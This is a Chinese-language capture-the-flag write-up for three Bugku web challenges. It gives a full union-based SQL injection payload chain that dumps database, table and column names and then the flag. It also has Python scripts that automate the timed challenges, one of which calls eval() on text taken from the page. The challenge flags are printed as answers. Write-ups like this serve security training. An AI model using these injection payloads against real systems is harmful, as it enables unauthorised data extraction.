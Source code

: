 ## 成绩单查询
标准sql注入题
- hackbar注入`id=1'#` 成功
- 判断列数`id=1' order by 4#`四列，五列测试不对
- 联合查询`id=0' union select 1,2,3,4#`z成功
- 查询`id=0' union select 1,database(),user(),version()#`
- 看到数据库名称含有flag
  `skctf_flag	  skctf_flag@localhost	  5.5.34-log`
- 查询表名 `id=0' union select 1,2,3,(select group_concat(table_name) from information_schema.tables where table_schema='skctf_flag')#`得到表名fl4g
- 查询表的列名`id=0'union select 1,2,3,(select group_concat(column_name)
 from information_schema.columns where table_name='fl4g')#`得出列skctf_flag
- 查询数据`id=0' union select 1,2,3,(select skctf_flag from fl4g)#`
- BUGKU{Sql_INJECT0N_4813drd8hz4}

## 秋名山老司机
题目：亲请在2s内计算老司机的车速是多少
1453188555*112050552*2035911046+129564843-990655641*10801555*1826101406-742934982+1688885834-387627083+502307721=?;
车速太快人不行了 借助py
- 看看前辈 https://www.jianshu.com/p/b0a5d72c8bae
  ```python
  #改一下url
  import requests
  import re
  url = 'http://120.24.86.145:8002/qiumingshan/'
  s = requests.Session()
  source = s.get(url)
  expression = re.search(r'(\d+[+\-*])+(\d+)', source.text).group()
  result = eval(expression)
  post = {'value': result}
  print(s.post(url, data = post).text)  
  ```
- 跑了好几次
- Bugku{YOU_DID_IT_BY_SECOND}

## 速度要快
打开网页：我感觉你得快点!!!
- 看源码有注释
- 抓包看一下raw中有base64 解码后验证不是flag
- 每一次go base64都不一样
- 写脚本
  ```python
  #coding:utf-8
  import requests
  import base64

  url='http://123.206.87.240:8002/web6/'
  s=requests.Session()
  header=s.get(url).headers
  #print(header)
  flag = base64.b64decode(base64.b64decode(header['flag']).decode() .split(':')[1]).decode() #对其进行base64两次解密

  data={'margin':flag}

  print(s.post(url=url,data=data).content.decode())
  ```
- KEY{111dd62fcd377076be18a}
